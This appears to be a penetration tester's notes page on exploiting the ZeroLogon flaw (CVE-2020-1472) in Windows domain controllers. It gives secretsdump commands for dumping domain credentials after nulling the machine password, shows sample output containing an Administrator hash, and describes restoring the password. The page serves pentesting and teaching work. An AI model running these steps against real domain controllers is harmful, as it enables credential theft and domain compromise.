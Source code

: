 ```yaml
---
description: CVE-2020-1472
---
```


# 🧙‍♀️ Abusing ZeroLogon

<figure><img src="../../.gitbook/assets/image (1041).png" alt=""><figcaption></figcaption></figure>

Github: [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)

Zerologon is a vulnerability in the cryptography of Microsoft’s Netlogon process that allows an attack against Microsoft Active Directory domain controllers. Zerologon makes it possible for a hacker to impersonate any computer, including the root domain controller.

{% embed url="https://www.trendmicro.com/en_us/what-is/zerologon.html" %}

#### Methodology:

I took the pictures on this GitHub:

{% embed url="https://0xss0rz.github.io/2021-05-31-ZeroLogon/" %}

Since Zerologon is a very dangerous exploit that can cause damage to a DC, it's best to just run the check script and notify your client:

<figure><img src="../../.gitbook/assets/image (1042).png" alt=""><figcaption></figcaption></figure>

But if we ever need to try this attack, here are the steps ->

If the target is vulnerable, we just need to throw in the following command:

<figure><img src="../../.gitbook/assets/image (1043).png" alt=""><figcaption></figcaption></figure>

This will lead to putting the passwords to null, thus enabling us to be able to dump anything on the DC:

```
secretsdump.py -just-dc -no-pass DC01\$@10.10.181.126
```

```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3f3ef89114fb063e3d7fc23c20f65568:::
[...]
```

Then we could technically do anything we want on the DC like getting a shell:

<figure><img src="../../.gitbook/assets/image (1044).png" alt=""><figcaption></figcaption></figure>

{% hint style="danger" %}
We quicly need to restore the domain credentials after performing this attack
{% endhint %}

To restore the password and the overall "integrity" of the domain, these are the following steps:

```
secretsdump.py username@IP_of_DC -hashes hash_of_user
```

Now we need to look for this variable in the output, the plan\_password\_hex:

<figure><img src="../../.gitbook/assets/image (1045).png" alt=""><figcaption></figcaption></figure>

and to restore the previous state that was stable, we can run the integrated script that zerologon provides; This will first authenticate with the empty password to the same DC and then set the password back to the original one.:

```
restorepassword.py testsegment/s2016dc@s2016dc -target-ip 192.168.222.113 -hexpass e6ad4c4f64e71cf8c8020aa44bbd70ee711b8dce2adecd7e0d7fd1d76d70a848c987450c5be97b230bd144f3c3...etc
```
